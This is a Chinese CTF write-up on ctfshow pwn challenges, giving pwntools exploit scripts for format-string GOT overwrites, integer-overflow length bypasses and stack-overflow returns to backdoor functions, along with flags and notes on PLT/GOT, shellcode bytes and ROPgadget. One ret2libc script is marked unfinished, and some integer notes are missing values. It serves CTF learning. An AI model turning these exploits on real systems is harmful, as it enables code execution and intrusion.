不可能default，也不可能nothing_here

其他函数看汇编

这里虽然可以清楚看到选择7应该就是正确答案，但我们还是运行一下其他情况，如果汇编看不太懂的话


case 2

```
[DEBUG] Received 0x22 bytes:
    b'00000001-fffff7f2-0x10-(nil)-(nil)'
00000001-fffff7f2-0x10-(nil)-(nil)[*] Got EOF while reading in interactive
```


case 3

```
[DEBUG] Received 0x8b bytes:
    b'AAAA.0x1.0xfffffffffffff7fe.0x10.(nil).(nil).0x7ffdc1b5d340.0x55a851d74cf0.0x3c1b5d420.0x7ff58dc808920a00.0x55a851d74d50.0x7f45872f7c87.0x1'
AAAA.0x1.0xfffffffffffff7fe.0x10.(nil).(nil).0x7ffdc1b5d340.0x55a851d74cf0.0x3c1b5d420.0x7ff58dc808920a00.0x55a851d74d50.0x7f45872f7c87.0x1[*] Got EOF while reading in interactive
```


case 4

循环打印

```
0x1000 的0
```


case 5

```
[DEBUG] Received 0x4b bytes:
    b'Hello CTFshow \n'
    b'Hello CTFshow \n'
    b'Hello CTFshow \n'
    b'Hello CTFshow \n'
    b'Hello CTFshow \n'
Hello CTFshow
Hello CTFshow
Hello CTFshow
Hello CTFshow
Hello CTFshow
[*] Got EOF while reading in interactive
```


最终exp：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28287

p = remote(ip,port)  

p.recvuntil(b'Enter your choice: ')
p.sendline(b'7')

p.interactive()
```


flag

```
ctfshow{79025640-776d-4788-b617-6a71b5c46c7c}
```


## 94. pwn94（不理解）

好了，你已经学会1+1=2了，接下来继续加油吧


直奔ctfshow函数


而且read限制了100，所以肯定不是栈溢出的问题了，再发现格式化字符串漏洞printf(buf)

又看到sys函数有个提示

```c
void sys()
{
  system("echo Write here!");
}
```


思路就是got表可以写，那就将printf函数的地址复写为system的地址，然后因为他是while1，再传入/bin/sh，这样执行printf('/bin/sh')的时候，实际执行的就是system('/bin/sh')


got表：


```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28159

p = remote(ip,port)

payload = p32(0x0804A010 + 2) + p32(0x0804A010) + b'%2044c%6$hn' + b'%31740c%7$hn'

p.sendline(payload)
p.sendline(b'/bin/sh;')
p.interactive()
```

上述payload可以写成：

```python
payload = fmtstr_payload(6,{elf.got['printf']:elf.plt['system']})
```


flag：

```
ctfshow{b526dcb7-898e-45b7-bbc3-9d412c2f09ae}
```


## 95. pwn95


## 96. pwn96


## 97. pwn97


## 98. pwn98


## 99. pwn99


## 100. pwn100


# 整数安全


## 101. pwn101

先学点东西吧

check


64位ida启动！

一眼看到gift


我测 还给了提示


考点是整数安全吗，就是要玩整型溢出了


32位有：

| Type               | Byte | Range                                                      |
| ------------------ | ---- | ---------------------------------------------------------- |
| short int          | 2    | 0~0x7fff 0x8000~0xffff                                     |
| unsigned short int | 2    | 0~0xffff                                                   |
| int                | 4    | 0~0x7fffffff 0x80000000~0xffffffff                         |
| unsigned int       | 4    | 0~0xffffffff                                               |
| long int           | 8    | 0~0x7fffffffffffffff 0x8000000000000000~0xffffffffffffffff |
| unsigned long int  | 8    | 0~0xffffffffffffffff                                       |


看一下主要判断函数：


需要注意的是v4和v5的数据类型都是 `unsigned int`  数据范围为：`0~0xffffffff` 所以没办法直接传，要想溢出


先把两个十六进制的转换摆出来

0x7fffffff对应的十进制2,147,483,647 就是整数的最大值，所以待会直接传这个为v5即可

0x80000000对应的是2,147,483,648 但是明显超过int的最大值，所以看一下负数那边，二进制表示为：1000 0000 0000 0000 0000 0000 0000 0000  这恰好是int的最小值 -2147483648，这个值为v4


```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='amd64',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28240

p = remote(ip,port)  

p.recvuntil(b'Enter two integers: ')
p.sendline(str(-2147483648)) 
p.sendline(str(2147483647)) 
p.interactive()
```


直接就拿到flag了


```
ctfshow{54f0d518-00f7-4432-aa55-8ec1a1a0cca4}
```


## 102. pwn102

还是简单的知识


可以看到，v4本身是`unsigned int`数据类型，然后我们输入等于`-1`，才可以执行`gift()`,那这个比较好思考，直接计算：

`unsigned int` 最大值为 `0~0xffffffff` ，十进制为`4,294,967,295`


它的二进制表示就是为：`1111 1111 1111 1111 1111 1111 1111 1111`

二进制存储都是补码，v4 == -1 是比较他们在内存中的二进制表示

将它视为有符号整数的二进制补码表示，那就是-1


```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='amd64',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28246

p = remote(ip,port)  

p.recvuntil(b'Enter an unsigned integer: ')
p.sendline(str(4294967295)) 

p.interactive()
```


直接拿到flag

```
ctfshow{0f856860-65b3-4e76-9b94-606a64f82777}
```


## 103. pwn103

看着好像还是不难


关键点在ctfshow函数里面


总共要传两个值，一个是int v1，用来控制dest中src的长度

一个是char dest[88]，用来做最终的比较

`(unsigned __int64)dest > 0x1BF52`

然后这里比较又做了一个强制类型转换


首先先看一下关键的代码：

```c
void *memcpy(void *dest, const void *src, size_t n);
```

其中，`dest`是目标内存地址，也就是要将数据复制到的地方；`src`是源内存地址，即数据的来源；`n`是要复制的字节数。

那在这道题里面

```c
memcpy(dest, src, v1);
```

将src地址的数据复制v1个字节给dest

然后上面又有： `src = 0LL`    `src = ’\0'`

那这下好玩了

我们再看一下比较的`(unsigned __int64)dest > 0x1BF52`


0x1BF52在内存中：

```
0001 1011 1111 0101 0010
```


unsigned int 的最大值为：

```
1111 1111 1111 1111 1111 1111 1111 1111
```


字符在内存中存储也是8位二进制，所以想办法构造，这边随便构造都可以，只要满足比`0001 1011 1111 0101 0010` 即可，但是要保证你构造出来的二进制能够转为ascii码


这边采用

```
0101 0010 0101 0010 0101 0010 0101 0010
```

字符：

```
RRRR
```


v1直接等于0


```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='amd64',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28268

p = remote(ip,port)  

p.recvuntil(b'Enter the length of data (up to 80): ')
p.sendline(b'0') 

p.recvuntil(b'Enter the data: ')
p.sendline(b'RRRR') 

p.interactive()
```


然后也是直接出来flag了


```
ctfshow{c372bb39-3008-4bac-8f99-e6dade2c6519}
```


## 104. pwn104

有什么是可控的？


好了，当看到它的check信息变了，我就知道不一样了

main函数没啥，直接看ctfshow函数


size_t是无符号整数，`size_t`类型确保了在不同系统上这种内存分配大小的表示是正确的，通常在 32 位系统中是 32 位无符号整数，在 64 位系统中是 64 位无符号整数

先输入nbytes 来控制buf的输入长度，这里nbytes随便输入即可


后面就很无脑了，一个栈溢出到that里面


```
0x40078D
```


最终代码exp：

```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='amd64',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28267

p = remote(ip,port)  

p.recvuntil(b'How long are you?')
p.sendline(b'39') 

payload = b'z'* (0x0E + 0x08) + p64(0x040078D)
print(len(payload))
p.recvuntil(b'Who are you?')
p.sendline(payload) 

p.interactive()
```


然后上去ls cat即可

```
ctfshow{acf0556a-e481-4172-a8a1-1a330a12876d}
```


## ==105. pwn105==

看着好像没啥问题


参考资料：[整数溢出详解 - 先知社区](https://xz.aliyun.com/t/12747?time__1311=GqGxu7G%3DKCqYqGN4eequCzGCDcAKWa4D)


32位小端，ida启动！

success后门函数搁这

```
0x0804870E
```


main函数



read有限制刚好为1024位，所以没办法从buf这边直接溢出到返回函数执行system


ctfshow函数



这里存在栈溢出的点，可以利用strcpy将s的值复制给dest,这就存在栈溢出了

可以看到定义了一个无符号变量v3，v3就是输入的变量s的长度，而且还是int8，最大值就是255

然后这里利用strlen()对变量s的长度进行了检测，其实这里也就是我们之后利用整数溢出的漏洞利用点


另外知识点：

`strlen`检测字符串的内存地址开始，遇到'\0'就会返回

注意`strcpy`函数会从源字符串`s`所指向的内存地址开始，逐个字符地将字符复制到目标字符串`dest`所指向的内存地址，直到遇到源字符串中的空字符`'\0'`为止。然后，它也会将空字符`'\0'`复制到目标字符串中，以确保目标字符串是一个以`'\0'`结尾的有效字符串。

但是本文的考点不是这个


具体看dest的位置


直接填充到返回函数，然后到那个后门函数那里：

```python
payload = b'a' * (0x11 + 0x04) + p32(0x0804870E)
```


整形溢出

```
255 -> 1111 1111
256 -> 1 0000 0000   溢出就是为0
257 -> 1 0000 0001  -> 1

```


构造溢出，填充长度

```python
payload = payload.ljust(260,b'a')
```


实际情况下payload可以填充到257~263区间，咱也搞不懂，也不敢搞懂捏


exp如下：

```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28303

p = remote(ip,port)  

payload = b'a' * (0x11 + 0x04) + p32(0x0804870E)

payload = payload.ljust(260,b'a')

p.recvuntil(b'Check your permissions:')
p.sendline(payload) 

p.interactive()
```


## 106. pwn106（形式同pwn105）

还是非常简单


main函数没啥好说的，选择1进入


```python
p.recvuntil(b'Your choice:')
p.sendline(b'1') 
```


login函数：


溢出不了一点，全都read限制了

直接点进最后面check_passwd查看


check_passwd函数：



好像和上一道题差不多，那就直接开动了！

v3还是无符号的int8，所以填充上一道题的填充长度应该不用修改

但是dest在栈上地址发生改变了：


所以需要填充 0x14 + 0x04 个长度


后门函数：


入口地址：

```
0x08048919
```


所以最终的exp为：

```python
# # *- coding: utf-8 -*-
from pwn import * 
from LibcSearcher import * 
context(arch='i386',os='linux',log_level='debug')
ip = "pwn.challenge.ctf.show"
port = 28151

p = remote(ip,port)  

payload = b'a' * (0x14 + 0x04) + p32(0x08048919)

payload = payload.ljust(259,b'a')

p.recvuntil(b'Your choice:')
p.sendline(b'1') 

p.recvuntil(b'Please input your username:')
p.sendline(b'jiangxiao') 

p.recvuntil(b'Please input your passwd:')
p.sendline(payload) 

p.interactive()
```


直接就出flag了

```
ctfshow{b581ebf1-60be-4bec-b8f5-1f997381f4a9}
```


## ==107. pwn107（atoi+ret2libc）（未完成）==

类型转换


略过main函数，直接show函数


关键代码如上

这里存在栈溢出漏洞，我们定义的nptr()变量距离ebp距离为0x2c,如果我们绕过长度限制，是不是就可以读入超过0x2c距离的字节呢，因此就产生栈溢出

栈图可以看出

```
-0000002C nptr            db ?
-0000000C var_C           dd ?
+00000000  s              db 4 dup(?)
+00000004  r              db 4 dup(?)
```


更关键是atoi

```
char array -> int     C 库函数 int atoi(const char *str) 把参数 str 所指向的字符串转换为一个整数（类型为 int 型）
```


运行案例：

```c
ii=atoi("123");// 输出ii=123
ii=atoi("123abc");// 输出ii=123，合法数字后的abc被忽略。
ii=atoi("abc123");// 输出ii=0，数字前有字符为非法。
ii=atoi("+123");// 输出ii=123，+是合法字符。
ii=atoi("-123"); // 输出ii=-123，-是合法字符。
```


getch函数：




第一个参数是nptr指针，也就是show里面的那个数组，第二个是输入的长度，这里有一个整数溢出的漏洞

因为第二个输入参数是unsigned int


对于绕过长度限制，我们可以利用-1，因为对于这种进行强制类型转换的，前面也说了在get_n()中第二个参数的类型是unsigned int，但vuln()调用get_n()函数的时候第二个参数的类型是int，所以我们int里的-1->0xffffffff，对于unsigned int->4294967295，从而绕过长度限制

之后利用printf泄露libc基地址，ret2libc打法

这里遇到版本问题，直接ldd查询

```
ldd pwn
```


==待修改：==

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='i386',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28179


p = remote(ip,port)  
elf = ELF('./pwn')

printf_plt = elf.plt['printf']  
log.success('{} = {:#x}'.format('printf_plt', printf_plt))  

main_addr = elf.symbols['main']
log.success('{} = {:#x}'.format('main_addr', main_addr))

printf_got = elf.got['printf']  
log.success('{} = {:#x}'.format('printf_got', printf_got))    


p.recvuntil('How many bytes do you want me to read? ')
p.sendline(b'-1')

p.recvuntil(b'bytes of data!\n')
payload0 = b'a' * (0x2C + 0x04) + p32(printf_plt) + p32(main_addr)+p32(printf_got)
p.sendline(payload0)

p.recvuntil(b'\n')
printf_addr = u32(p.recv(4))         
log.success('{} = {:#x}'.format('printf_addr', printf_addr))

libc = LibcSearcher('printf', printf_addr)     
libc_base = printf_addr - libc.dump('printf')
log.success('{} = {:#x}'.format('libc_base', libc_base))

system_addr = libc_base + libc.dump('system')
log.success('{} = {:#x}'.format('system_addr', system_addr))

binsh_addr = libc_base + libc.dump('str_bin_sh')
log.success('{} = {:#x}'.format('binsh_addr', binsh_addr)) 

p.recvuntil(b'How many bytes do you want me to read? ')
p.sendline(b'-1')

payload = b'a' * (0x2C + 0x04) + p32(system_addr) + p32(main_addr) + p32(binsh_addr)   
p.recvuntil(b'bytes of data!\n')
p.sendline(payload)

p.interactive()
```


## 108. pwn108


# 重点基础知识

1. 函数地址的基本概念
   - **静态函数地址（编译时确定）**：在编译程序时，每个函数在二进制文件内部有一个相对的偏移地址。这个地址是基于二进制文件的布局确定的，例如在 ELF 文件的代码段（`.text`段）中，函数按照编译顺序排列，它们之间有相对固定的偏移。像`elf.sym['function_name']`获取的就是这种在编译阶段确定的函数在 ELF 文件中的相对地址。
2. PLT（过程链接表）和 GOT（全局偏移表）的作用与关系
   - PLT 的作用
     - **延迟绑定**：PLT 主要用于实现延迟绑定机制。当程序调用一个外部函数（如`libc`中的函数）时，它首先会进入 PLT。以`puts`函数为例，程序代码中调用`puts`时，实际上是跳转到`puts@plt`（`puts`在 PLT 中的入口）。在程序刚开始运行时，PLT 中的条目只包含跳转到动态链接器（`ld - linux.so`）的代码，而不是真正的函数地址。
     - **代码位置固定**：PLT 在 ELF 文件中有固定的位置，它是程序代码段的一部分。`elf.sym['puts']`获取的函数地址可能就是`puts`在 PLT 中的地址（对于外部函数）。
   - GOT 的作用
     - **存储真实地址**：GOT 用于存储外部函数在内存中的实际运行时地址。当动态链接器解析了外部函数的地址后，会将这个地址填充到 GOT 对应的条目中。例如，`elf.got['puts']`获取的是`puts`函数在 GOT 中的地址，这个地址所存储的值就是`puts`函数在内存中的实际运行时地址。
     - **动态更新**：在程序运行初期，GOT 中的外部函数地址可能是未填充的（初始化为一些特殊值），当第一次调用外部函数时，动态链接器会被触发去解析函数地址并填充到 GOT 中。
   - 两者的关系
     - **PLT 间接调用 GOT**：当程序通过 PLT 调用外部函数时，PLT 中的代码会间接跳转到 GOT 中存储的函数实际地址。具体来说，PLT 中的代码会先检查 GOT 中对应函数地址是否已经解析，如果没有解析，就会调用动态链接器来解析地址并填充到 GOT，然后跳转到 GOT 中的地址执行函数。


FORTIFY_SOURCE

1. 概述
   - 在 Pwn（二进制漏洞利用）场景中，`FORTIFY_SOURCE`是一个 GCC（GNU Compiler Collection）编译器的安全相关选项。当`FORTIFY_SOURCE = 0`时，表示关闭了 GCC 的某些安全加固机制。
2. FORTIFY_SOURCE 机制简介
   - 当`FORTIFY_SOURCE`开启（通常设为大于 0 的值，如`FORTIFY_SOURCE = 2`是比较常见的高安全级别设置），编译器会对一些可能存在缓冲区溢出风险的函数进行检查和加固。这些函数包括但不限于`strcpy`、`strcat`、`sprintf`等。
   - 例如，对于`strcpy`函数，编译器会在编译时添加额外的代码来检查目标缓冲区的大小，以防止缓冲区溢出。它会将目标缓冲区的大小作为一个参数传递给一个内部的检查函数，在运行时如果发现复制的数据长度可能超过缓冲区大小，就会提前终止程序并报错，从而增强程序的安全性。
3. 关闭后的影响（FORTIFY_SOURCE = 0）
   - 漏洞利用方面
     - 对于攻击者来说，关闭`FORTIFY_SOURCE`可能会使某些原本难以利用的漏洞变得容易利用。例如，如果一个程序存在缓冲区溢出漏洞，并且该程序是在`FORTIFY_SOURCE = 0`的情况下编译的，攻击者就可以更容易地构造恶意输入来覆盖栈上或堆上的数据结构，因为没有了编译器添加的缓冲区大小检查机制来阻止溢出。
   - 程序性能方面
     - 关闭这个选项可能会在一定程度上提高程序的性能。因为开启`FORTIFY_SOURCE`时，编译器会插入额外的检查代码，这些代码在运行时会消耗一定的时间和资源。当`FORTIFY_SOURCE = 0`时，就避免了这些额外的开销，不过这种性能提升通常是比较微小的，除非程序中大量使用了相关的可能存在风险的函数。


整型溢出：

- 以 32 位有符号整数为例
  - 假设在 C 或 C++ 语言中，有一个 32 位有符号整数变量`int num = 2147483647`（这是 32 位有符号整数的最大值），如果执行`num = num + 1`操作，就会发生溢出。在有符号整数的二进制补码表示中，`2147483647`的二进制表示为`01111111111111111111111111111111`，加`1`后变为`10000000000000000000000000000000`，这个值在有符号整数表示中是`-2147483648`，而在无符号整数表示中就是`0x80000000`（如果将其看作无符号数）。
  - 这里，从 2147483646（二进制表示为`01111111111111111111111111111110`）开始，加 1 后得到 2147483647（二进制表示为`01111111111111111111111111111111`），转换为无符号整数后就是 0x7FFFFFFF。


1. 有符号整数的表示与范围
   - 在计算机中，对于有符号整数（以 32 位为例），通常采用二进制补码表示。32 位有符号整数的范围是 到 ，即 - 2147483648 到 2147483647。其最高位（最左边的位）是符号位，0 表示正数，1 表示负数。
   - 例如，对于正数，如最大的正数 2147483647，它的二进制表示为 。而对于负数 - 1，它的二进制补码表示为 。
2. 整数溢出的概念
   - 当进行算术运算时，如果结果超出了这个有符号整数的范围，就会发生整数溢出。溢出后的结果会根据二进制补码的规则重新解释。
   - 例如，当最大值 2147483647（二进制为 ）加 1 时，结果的二进制表示为 ，这个值在有符号整数表示中是 - 2147483648。
3. 转换为无符号整数的过程
   - 当把一个有符号整数转换为无符号整数时，计算机不再考虑符号位。以 32 位为例，无符号整数的范围是 到 ，即 0 到 4294967295。
   - 假设我们有一个有符号整数，它的值是接近最大值的一个数，比如 2147483646（二进制为 ），当这个数加 1 后，得到 2147483647（二进制为 ）。
   - 当把这个有符号整数 2147483647 转换为无符号整数时，由于无符号整数不考虑符号位，它的值就是二进制表示对应的无符号整数的值，即 对应的十进制无符号整数为 2147483647，十六进制表示为 0x7FFFFFFF。
   - 简单来说，从数学角度看，就是先根据有符号整数的二进制补码运算规则进行算术运算（可能导致溢出），然后在转换为无符号整数时，把原来的二进制表示按照无符号整数的范围和规则重新解释，计算出对应的无符号整数的值。


1. 如何 “溢出” 到 - 1（从概念角度）
   - 在正常的无符号整数运算中，不会直接溢出到 - 1，因为无符号整数不包含负数。但是如果从二进制位的角度以及和有符号整数的对比来理解，可以这样看：
   - 当一个 32 位无符号整数进行加法运算并不断增加时，例如从 0 开始不断加 1，当加到最大值 4294967295（二进制表示为`11111111111111111111111111111111`）后，如果再增加 1，由于无符号整数的溢出特性，结果会变为 0（二进制表示重新从`00000000000000000000000000000000`开始），这就好像是一个 “循环”。
   - 现在，如果我们把这个二进制位模式`11111111111111111111111111111111`看作是有符号整数的二进制补码表示，那么它代表的就是 - 1。在有符号整数的二进制补码表示中，最高位为 1 表示负数，这个二进制数通过补码转换规则可以得到 - 1 这个值。


当RELRO为Partial RELRO时，表示.got不可写而.got.plt可写。
当RELRO为FullRELRO时，表示.got不可写.got.plt也不可写。
当RELRO为No RELRO时，表示.got与.got.plt都可写。


==计算机中有 4 种溢出情况，以 32 位整数为例。==

① 无符号上溢：无符号数 0xffffffff 加 1 会变成 0。

② 无符号下溢：无符号数 0 减去 1 会变成 0xffffffff,即-1。

③ 有符号上溢：有符号正数 0x7fffffff 加 1 变成 0x80000000, 即从 2147483647 变成了-2147483648。

④ 有符号下溢：有符号负数 0x80000000 减去 1 变成 0x7fffffff,即从-2147483648 变成了 2147483647。

一个经典的整数溢出例子就是 c 语言的 abs 函数，int abs(int x)，该函数返回 x 的绝对值。但当 abs()函数的参数是 0x80000000 即-2147483648 的时候，它本来应该返回2147483648，但正整数的范围是 0-2147483647，所以他返回的仍然是个负数，即本身-2147483648。


查询链接库：

```
ldd pwn
```


```
ROPgadget --binary pwn --ropchain
```


```bash
ROPgadget --binary ./pwn --only "pop|ret" | grep "rdi"
```

```
ROPgadget --binary libc.so --string '/bin/sh'
```


少库：

```
sudo apt-get install lib32stdc++6
```


gdb调试

```
gdb
b main
b printf

r

c

ni

q

stack 24

info address printf
```


push ebp就等于将ebp的值保存到栈中，并且将当前esp下移

pop ebp就等于将ebp的值从栈中取出来，将ebp指向这个值


图来自长亭


[PWN 64位程序寄存器的使用-腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/2277507)

六十四位汇编

参数少于7，参数从左到右放入寄存器，rdi，rsi，rdx，rcx，r8，r9

参数大于7，前六个一样，但是后面是从右向左放入栈中，和32汇编一样

实例：

 H(a, b, c, d, e, f, g, h);

 a->%rdi, b->%rsi, c->%rdx, d->%rcx, e->%r8, f->%r9 

h->8(%esp) g->(%esp) 

call H

也就是说传入参数要去寻找对应的寄存器，多少个参数就找多少个寄存器


shellcraft

内置了一系列的字节shellcode，并且能根据实际来进行匹配相应的shellcode

```python
from pwn import *    
[[pwntool生成shellcode]]
shellcode=asm(shellcraft.sh())

shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"（23字节）
```


cyclic算真正的偏移量

```
cyclic 255
// 生成一个很长的字符串

r
// 运行程序

cyclic -l 一个无效地址
// 得到真正的偏移量
```


ret2text

ret2shellcode

ret2syscall

那么ret2text——程序中有system("/bin/sh")代码段，控制流执行
那么ret2shellcode——程序中不存在system("/bin/sh/")的代码段，自己恶意填入代码并在可执行段执行 
那么ret2syscall——程序中不存在system("/bin/sh/")的代码段，不存在合适的可执行段进行恶意代码的执行，但是程序是静态链接，且程序中中存在代码片段，拼接可组成系统调用 


函数跳转时候的栈变化

函数调用可以分解为如下步骤：

- 父函数将调用参数从后向前压栈
- 将返回地址压栈保存
- 跳转到子函数起始地址执行
- 子函数将父函数栈帧起始地址 rpb 压栈
- 将 rbp 的值设置为当前 rsp 的值，即将 rbp 指向子函数栈帧的起始地址

上述过程中，保存返回地址和跳转到子函数处执行由 call 一条指令完成，在 call 指令执行完成时，已经进入了子程序中，因而将上一栈帧 rbp 压栈的操作，需要由子程序来完成


返回：

函数返回时，返回值保存在 rax 寄存器中。之后需要将栈的结构恢复到函数调用之前的状态，并跳转到父函数的返回地址处继续执行
由于函数调用时已经保存了返回地址和父函数栈帧的起始地址，要恢复到子函数调用之前的父栈帧，我们只需要执行以下两条指令：


